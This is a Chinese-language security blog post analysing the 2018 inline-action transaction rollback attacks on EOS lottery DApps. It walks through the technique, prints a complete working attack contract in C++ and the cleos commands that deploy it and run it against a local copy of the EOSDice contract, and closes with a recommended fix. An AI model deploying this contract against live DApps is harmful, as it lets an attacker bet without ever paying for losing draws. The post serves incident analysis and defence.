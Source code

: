 ```yaml
---
title: EOS DApp 漏洞分析 - inline action 交易回滚攻击
date: 2019-05-16 23:03:59
permalink: eos-DApp-revert
category:
    - 区块链安全
tags:
    - 回滚攻击
author: 零时科技
---
```


在去年（2018年）多个 EOS DAPP 发生了交易回滚攻击，这也是很典型的攻击方式，针对这个漏洞，深入浅出区块链社区伙伴零时科技安全团队进行了详细的分析及攻击过程复盘。

<!-- more -->

## 背景

2018年12月，EOS上多个抽奖 DApp 被黑客攻击。黑客是采用了 `inline action` 回滚攻击的技术实施攻击，并获利数千EOS。

## 技术点：action 

有一些EOS 抽奖类 DApp 采用了 `inline action` 方式进行开奖，导致被黑客攻击。
我们先来看一下 `inline action`和`defer action`分别是什么：

> action就是EOS上消息（EOS系统是以消息通信为基础的）的载体。如果想调用某个[智能合约](https://learnblockchain.cn/2018/01/04/understanding-smart-contracts/)，那么就要给它发 `action` 消息。

* **inline action**
    内联交易：多个不同的`action`在一个`transaction`中（在一个交易中触发了后续多个 Action ），在这个 `transaction` 中，只要有一个 `action` 异常，则整个`transaction` 会失败，所有的 `action` 都将会回滚。

* **defer action**
    延迟交易：两个不同的`action`在两个`transaction`中，每个`action`的状态互相不影响。
    
## 攻击技术分析

了解了上述知识之后，我们分析来黑客攻击流程：
* 首先，部署自己的攻击合约；
* 其次，在合约中进行下注操作；
* 随后，使用 `inline action` 查询自己的余额判断是否中奖，若未中奖，则抛出异常。此时，由于下注 `action` 和攻击的 `action` 在同一 `transaction` 中，那么，攻击`action`异常会导致下注的失败。那么黑客可以实现不中奖就不用付出EOS。

### 攻击合约
下面，我们给出攻击的测试合约

```c++
#include <utility>
#include <vector>
#include <string>
#include <eosiolib/eosio.hpp>
#include <eosiolib/time.hpp>
#include <eosiolib/asset.hpp>
#include <eosiolib/contract.hpp>
#include <eosiolib/types.hpp>
#include <eosiolib/transaction.hpp>
#include <eosiolib/crypto.h>
#include <boost/algorithm/string.hpp>
#include "eosio.token.hpp"

using eosio::asset;
using eosio::permission_level;
using eosio::action;
using eosio::print;
using eosio::name;
using eosio::unpack_action_data;
using eosio::symbol_type;
using eosio::transaction;
using eosio::time_point_sec;


class attack : public eosio::contract {
    public:
        attack(account_name self):eosio::contract(self)
        {}

        //@abi action
        void rollback(asset in)
        {
            require_auth(_self);
            asset pool = eosio::token(N(eosio.token)).get_balance(_self, symbol_type(S(4, EOS)).name());
            eosio_assert(in.amount > pool.amount, "rollback");
        }

        //@abi action
        void hi(asset bet)
        {
            require_auth(_self);
            asset pool = eosio::token(N(eosio.token)).get_balance(_self, symbol_type(S(4, EOS)).name());
            std::string memo = "dice-noneage-66-user";
			action(
                permission_level(_self, N(active)),
                N(eosio.token), N(transfer),
                std::make_tuple(_self, N(eosbocai2222), bet, memo)
            ).send();

            action(
               permission_level{_self, N(active)},
                _self, N(rollback),
                std::make_tuple(pool)
            ).send();
        }
};

#define EOSIO_ABI_EX( TYPE, MEMBERS ) \
extern "C" { \
   void apply( uint64_t receiver, uint64_t code, uint64_t action ) { \
      auto self = receiver; \
      if( code == self || code == N(eosio.token)) { \
         if( action == N(transfer)){ \
                eosio_assert( code == N(eosio.token), "Must transfer EOS"); \
         } \
         TYPE thiscontract( self ); \
         switch( action ) { \
            EOSIO_API( TYPE, MEMBERS ) \
         } \
         /* does not allow destructor of thiscontract to run: eosio_exit(0); */ \
      } \
   } \
}

EOSIO_ABI_EX( attack,
        (hi)(rollback)
)
```

由于开源的抽奖EOS DApp 采用 `inline action` 的较少，因此我们将 `EOSDice` 合约开奖的 `defer action` 改为了 `inline action` 来做测试。

### 攻击测试流程

1. 创建相关账户并设置权限

    ```bash
    # 创建攻击者相关账户权限
    cleos create account eosio attacker EOS6xKEsz5rXvss1otnB5kD1Fv9wRYLmJjQuBefRYaDY7jcfxtpVk
    cleos set account permission attacker active '{"threshold": 1,"keys": [{"key": "EOS6kSHM2DbVHBAZzPk7UjpeyesAGsQvoUKyPeMxYpv1ZieBgPQNi","weight": 1}],"accounts":[{"permission":{"actor":"attacker","permission":"eosio.code"},"weight":1}]}' owner -p attacker
    ```


2. 向相关账户发送代币

    ```bash
    cleos push action eosio.token issue '["attacker", "10000.0000 EOS", "memo"]' -p eosio
    cleos push action eosio.token issue '["eosbocai2222", "10000.0000 EOS", "memo"]' -p eosio
    
    ```

3. 编译并部署相关合约

    ```bash
    # 编译攻击合约
    eosiocpp -o attack.wast attack.cpp
    eosiocpp -g attack.abi attack.cpp
    # 部署攻击合约
    cleos set contract attacker ~/attack -p attacker@owner
    
    # 编译EOSDICE合约
    eosiocpp -o eosdice.wast eosbocai2222.cpp
    eosiocpp -g eosdice.abi eosbocai2222.cpp
    
    # 部署EOSDICE合约
    cleos set code eosbocai2222 eosdice.wasm -p eosbocai2222@owner
    cleos set abi eosbocai2222 eosdice.abi -p eosbocai2222@owner

    ```

4. 初始化测试合约

    ```bash 
    cleos push action eosbocai2222 init '[""]' -p eosbocai2222
    
    ```

5. 使用合约攻击测试DApp

    ```bash
    cleos push action attacker hi '["1.0000 EOS"]' -p attacker@owner
    ```

![攻击开奖成功](https://img.learnblockchain.cn/2019/05/15580205427769_r6mgx0skw18celvz.jpg)


上图是开奖成功的正常流程

![开奖失败](https://img.learnblockchain.cn/2019/05/15580205661972_u7j8bkza7fmrmrco.jpg)


上图是开奖失败，合约攻击合约抛出异常，转账事务发生回滚。

![](https://img.learnblockchain.cn/2019/05/15580205968951_8orm558sidinc3in.jpg)


## 推荐修复方法

在抽奖DApp使用 `defer action` 进行开奖可以避免本文分析的`inline action`交易回滚攻击，但是**链上开奖机制或许也不再安全**。建议使用链下开奖逻辑进行开奖。


本文所有过程均在本地测试节点完成，文章用到的所有代码在[NoneAge Github](https://github.com/NoneAge/EOS_DApp_Security_Incident_Analysis)。

本文由深入浅出区块链社区合作伙伴-[零时科技安全团队](http://www.noneage.com/)提供。

[深入浅出区块链](https://learnblockchain.cn/) - 系统学习区块链，学区块链都在这里，打造最好的区块链技术博客。
